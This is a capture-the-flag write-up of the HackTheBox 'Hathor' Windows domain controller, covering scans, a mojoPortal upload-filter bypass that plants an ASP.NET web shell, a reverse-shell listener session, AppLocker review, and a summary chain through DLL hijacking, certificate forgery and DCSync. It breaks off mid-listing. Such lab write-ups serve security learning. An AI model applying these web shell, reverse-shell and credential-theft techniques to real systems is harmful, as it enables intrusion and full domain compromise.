










# Hathor - Complete Write-up
Date: 01 August 2026\
Machine Rank: #607\
Difficulty: Insane\
OS: Windows Server 2022\
Domain: windcorp.htb\
IP Address: 10.129.230.109


## Executive Summary

Hathor is an Insane-rated Windows Active Directory HackTheBox machine that demonstrates a realistic, long-form attack chain against a domain controller fronting a legacy CMS. No single vulnerability grants domain compromise; instead, a public-facing web application flaw, a leftover audit artifact, a writable file share, and a deleted certificate are chained together across multiple privilege tiers to achieve complete domain control.

The attack path proceeds as follows:

1. **Web Application Compromise (mojoPortal CMS)** — A public mojoPortal instance running on IIS still has its default administrator credentials in place. Logging into the admin dashboard confirms ASP.NET is running in Full Trust mode. The File Manager's Upload function blocks `.aspx`, but its Copy function does not enforce the same filter — uploading a shell disguised as `.txt` and then Copying it to a `.aspx` filename delivers a working ASP.NET web shell, yielding code execution as `IIS APPPOOL\DefaultAppPool`.
2. **Weak Domain Credential Disclosure (BeatriceMill)** — Enumerating the filesystem from the web shell turns up a leftover audit CSV from the `Get-bADpasswords` password-auditing tool, which flags the domain user `BeatriceMill`'s NTLM hash as weak. Offline cracking against `rockyou.txt` recovers her plaintext password (`!!!!ilovegood17`) almost instantly.
3. **SMB Share Abuse & DLL Hijacking (ginawild)** — Authenticating as `BeatriceMill` over Kerberos reveals a non-default SMB share (`share`) with READ/WRITE access, hosting binaries (`AutoIt3_x64.exe`, `Bginfo64.exe`) invoked by a recurring scheduled task. Replacing a DLL loaded by the AutoIt script (`7-zip64.dll`) confirms code execution as domain user `ginawild`, a member of the `ITDep` group, which holds **WriteOwner** on `Bginfo64.exe`.
4. **Scheduled Task Hijack to SYSTEM** — `ginawild`'s WriteOwner right is abused to take ownership of `Bginfo64.exe`, grant `ginawild` full control, and overwrite the binary with a reverse-shell payload. Bginfo (unlike AutoIt) is both AppLocker-whitelisted and firewall-permitted, and the next scheduled run — which executes as SYSTEM — triggers the payload, yielding a SYSTEM shell.
5. **Certificate Recovery & Code-Signing Forgery (bpassrunner)** — Enumerating `ginawild`'s environment surfaces a Recycle Bin containing three deleted `.pfx` certificate files. Offline cracking with `crackpkcs12` recovers both certificate passwords, revealing a **Code Signing** certificate issued to `Administrator`. This certificate is used to re-sign a maliciously modified copy of the AppLocker-whitelisted `Get-bADpasswords.ps1` script, which — once triggered via its scheduled `run.vbs` launcher — executes as `bpassrunner`, the service account that runs the audit and holds **DCSync** rights.
6. **DCSync & Domain Compromise** — With `bpassrunner`'s DCSync privileges, `Get-ADReplAccount` extracts the `Administrator` account's NTLM hash directly from Active Directory replication data. This hash is used to forge a Kerberos ticket (via `ktutil`/`kinit` or Impacket's `getTGT.py`), which is then used to authenticate as `Administrator` over Evil-WinRM, completing full domain compromise.

**Impact:** Complete compromise of the `windcorp.htb` Active Directory domain and its domain controller (`hathor.windcorp.htb`). All domain user hashes and secrets are accessible via DCSync.

**Machine Information**

The target is a Windows Server 2022 Active Directory Domain Controller for the `windcorp.htb` domain, reachable at `10.129.230.109`. No initial credentials are provided — enumeration must begin from an unauthenticated network and web perspective.

---

## Reconnaissance

### Full TCP Port Scan

```
hyena@hyena$ nmap -sS -Pn -min-rate 5000 --max-retries 1 -T4 -p- 10.129.230.109                                                                    
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-01 10:03 +0000
Nmap scan report for 10.129.230.109
Host is up (0.35s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
53603/tcp open  unknown
53608/tcp open  unknown
60676/tcp open  unknown
62169/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 27.34 seconds
```

Unlike a pure AD box, this one has **port 80 (http) open** alongside the usual AD ports - that's our most promising initial attack surface.

### Service and Version Scan

We ran a detailed scan against exactly the discovered ports, using `-sC` for default NSE scripts (SMB shares, LDAP info, and more) and letting nmap grab full service banners.

```
hyena@hyena$ nmap -sV -sC -Pn -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,53603,53608,60676,62169 -T4 10.129.230.109
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-01 10:11 +0000
Nmap scan report for 10.129.230.109
Host is up (0.42s latency).
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Home - mojoPortal
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 29 disallowed entries (15 shown)
| /CaptchaImage.ashx* /Admin/ /App_Browsers/ /App_Code/ 
| /App_Data/ /App_Themes/ /bin/ /Blog/ViewCategory.aspx$ 
| /Blog/ViewArchive.aspx$ /Data/SiteImages/emoticons /MyPage.aspx 
|_/MyPage.aspx$ /MyPage.aspx* /NeatHtml/ /NeatUpload/
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-01 06:07:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-01T06:09:02+00:00; -4h04m23s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-08-01T05:47:38
|_Not valid after:  2027-08-01T05:47:38
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-01T06:09:03+00:00; -4h04m23s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-08-01T05:47:38
|_Not valid after:  2027-08-01T05:47:38
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-01T06:09:02+00:00; -4h04m23s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-08-01T05:47:38
|_Not valid after:  2027-08-01T05:47:38
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: windcorp.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-01T06:09:03+00:00; -4h04m23s from scanner time.
| ssl-cert: Subject: commonName=hathor.windcorp.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:hathor.windcorp.htb
| Not valid before: 2026-08-01T05:47:38
|_Not valid after:  2027-08-01T05:47:38
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
53603/tcp open  msrpc         Microsoft Windows RPC
53608/tcp open  msrpc         Microsoft Windows RPC
60676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62169/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HATHOR; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-time: 
|   date: 2026-08-01T06:08:23
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
|_clock-skew: mean: -4h04m23s, deviation: 0s, median: -4h04m23s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.80 seconds
```

**Key Findings:**
- **Domain:** `windcorp.htb` — confirmed via the LDAP service banners on 389/636/3268/3269
- **Hostname:** `hathor.windcorp.htb` — leaked directly through the LDAPS/GC certificate `commonName`
- **Host name (NetBIOS):** `HATHOR`
- **Web Service (Port 80):** Microsoft IIS 10.0 hosting **mojoPortal CMS** (`http-title: Home - mojoPortal`). `robots.txt` discloses 29 disallowed paths — including `/Admin/`, `/App_Data/`, `/Blog/`, and `/NeatUpload/` — which map directly onto mojoPortal's own directory structure and hint at the admin panel and upload-handling components we'll target next. The HTTP `TRACE` method is also flagged as potentially risky.
- **SMB (445):** signing is enabled **and required**, ruling out SMB relay against this host directly.
- **Kerberos clock skew:** `-4h04m23s` from our scanner's clock. This needs to be corrected (e.g. with `ntpdate` or `faketime`) before any Kerberos-based authentication (`-k`, `kinit`, ticket requests) will succeed later in the chain — Kerberos rejects requests outside its default 5-minute skew tolerance.
- **Certificate validity window:** `2026-08-01` to `2027-08-01`, consistent with an AD Certificate Services deployment issuing short-lived machine certs — worth remembering once certificate-based attacks come into play later in this chain.

Given the port layout (88, 389, 445, 636, 3268, 3269) alongside a hostname of `HATHOR`, this is confirmed as the `windcorp.htb` domain's Active Directory Domain Controller. Port 80 running a full CMS is the standout anomaly compared to a "pure" DC, and — combined with the `robots.txt` disclosure — it's the obvious starting point for initial access.

### DNS Enumeration

We used `nslookup` to query the domain controller's own DNS server and confirmed the domain name `windcorp.htb`, along with multiple IPv6 addresses in the `dead:beef::` range - further confirmation this is an Active Directory environment.

### Hosts File Configuration

We added the target's IP and domain name to `/etc/hosts` so our browser could resolve `windcorp.htb` (and `hathor.windcorp.htb`) and reach the web service running on port 80.

---

## Web Enumeration - mojoPortal CMS

### Default Landing Page

Visiting port 80 showed a default WindCorp site running mojoPortal CMS.



### Finding the Login Page and Default Credentials

We opened the website in a browser and found a mojoPortal CMS login page. The error message indicated it expected a valid email address, confirming this was a custom authentication system rather than a plain username-based login.

After spending some time on the site, we identified the specific mojoPortal version in use and found it was vulnerable to a few different known issues. Since mojoPortal is open source, we researched the project and found the **default administrator credentials** published online - this let us attempt a login without needing to brute-force anything.



### Dashboard Access

Testing the default credentials against the login form succeeded immediately.



### System Information Disclosure

Inside the admin dashboard we navigated through the various management sections and found a **System Information** page. It revealed the server was running Windows with ASP.NET configured in **Full Trust** mode - a strong signal that code execution through an uploaded file was going to be possible.



Searching online for known vulnerabilities affecting this specific mojoPortal build turned up nothing usable - the disclosed CVEs didn't match the version running on the remote instance. We needed to find an exploitation path that wasn't already publicly documented.

---

## Exploiting the File Manager - Extension Filter Bypass

### Theory

The most promising option in the Administrator panel was the **File Manager**. Being able to upload files to the remote server is always a good starting point for finding vulnerabilities, and since this is a Windows/IIS web server, the natural goal is to get a `.aspx` web shell to land and execute.

### Testing Upload Restrictions

We located the File Manager feature, which allows file uploads and basic file management. Testing the upload function showed it only permitted certain extensions - `.txt`, `.pdf`, `.doc` - while explicitly blocking dangerous ones like `.aspx`.


Since only `.txt` files were allowed through the uploader, we needed another way to get an executable script onto the server. Doing further research turned up a public repository containing an ASP.NET web shell we could try to smuggle through in disguise:

```
https://raw.githubusercontent.com/jivoi/pentest/master/shell/insomnia_shell.aspx
```

### The Copy Bypass

While the **Upload** function actively blocked `.aspx` files, we noticed the **Copy** function inside the File Manager did **not** enforce the same restriction. That meant we could upload the shell disguised as a `.txt` file (which passes the upload filter cleanly) and then use Copy to duplicate it under a new filename with a `.aspx` extension - completely bypassing the upload filter.

We uploaded the shell and copied it into the `logos` folder:



At this point, no errors were presented and the shell was uploaded successfully - but since it still had the `.txt` extension, the server treats it as plain text and won't execute the code inside it. Our goal now is to change the extension of the uploaded file back to `.aspx`.

Right-clicking the uploaded shell in the file manager presents a few options. Using the **Rename** option results in an error message, confirming rename is blocked for this extension:



Looking at the other available options, **Copy** turns out to be the key - it allows specifying a brand-new filename (and therefore extension) for the file at its destination:



So we changed the destination name to `shell.aspx` and performed the copy. This time there were no errors, meaning the file was successfully duplicated to `media/logos/shell.aspx`.

### Locating and Executing the Web Shell

All that was left was figuring out the upload path so we could reach the web shell directly. Since we were already looking at the contents of the `logos` folder, we checked the page source for the location of the WindCorp logo image shown in the top-left corner of the site - this revealed the base path used for that folder.

The full path to our shell turned out to be:

```
hathor.windcorp.htb/Data/Sites/1/media/logos/shell.aspx
```

Visiting this path presented our working web shell:



---

## Initial Foothold - Reverse Shell

### Catching the Shell

Using the web shell's "connect back" functionality, we caught a full reverse shell on our listener.



```
hyena@hyena$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.230.109 61060
Shell enroute.......
Microsoft Windows [Version 10.0.20348.643]
(c) Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

### Enumerating Privileges and Group Membership

```
checking privileges
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                        State   
============================= ================================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token      Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process Disabled
SeMachineAccountPrivilege     Add workstations to domain         Disabled
SeAuditPrivilege              Generate security audits           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking           Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set     Disabled

PS C:\Windows> whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                           Attributes                                        
========================================== ================ ============================================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                         Well-known group S-1-5-3                                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                          Alias            S-1-5-32-568                                                  Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                                       Mandatory group, Enabled by default, Enabled group
IIS APPPOOL\DefaultAppPool                 Well-known group S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                                     
```

Our shell is running as the **IIS AppPool identity** (`IIS APPPOOL\DefaultAppPool`) - a low-privileged service context, but enough to keep enumerating.

---

## AppLocker Analysis and Bypass Planning

### Theory

AppLocker is a Windows security feature that controls which applications, scripts, and files users are allowed to run on the system - functioning as a whitelist/blacklist across several rule collections:

- **EXE** - Executable files
- **DLL** - Dynamic Link Libraries
- **MSI** - Installer files
- **Scripts** - PowerShell, VBScript, etc.

### Reviewing the Effective Policy

We ran `get-applockerPolicy -effective -xml` and pulled the complete, effective AppLocker policy in XML form. This is extremely valuable because it tells us **exactly** which files we're allowed to execute without being blocked. A few important rules stood out:

**Script allowed:**
```xml
<FilePathRule Path="%OSDRIVE%\script\login.cmd" />
```
This means we can execute `C:\script\login.cmd`.

**DLL allowed:**
```xml
<FilePathRule Path="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" />
```

**EXE allowed:**
```xml
<FilePathRule Path="%OSDRIVE%\share\Bginfo64.exe" />
```

Since `login.cmd` is explicitly allowed, we could in theory write a malicious `.cmd` script, save it to `C:\script\login.cmd`, and execute it. More broadly, knowing exactly what's whitelisted means we can place our own files in allowed locations and run them without AppLocker blocking us.

### Uploading Sysinternals AccessChk

With AppLocker enabled, the set of files a user can execute is restricted by policy. Looking closer at the policy, we noticed AppLocker trusts **Microsoft** as a publisher - meaning signed Sysinternals tools can be used to help find writable paths that bypass AppLocker rules. We chose to use `AccessChk`.

We downloaded it to our local machine first:

```
https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
```

Transferring the executable directly to the remote machine using common PowerShell commands like `Copy-Item`, `wget`, or `iwr` yielded no results, most likely due to outbound firewall rules. An easy way around this problem was to reuse the File Manager upload feature from earlier - after renaming the file to a `.txt` extension so it passes the upload filter.



```
Directory: C:\inetpub\wwwroot\Data\sites\1\media\logos

Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
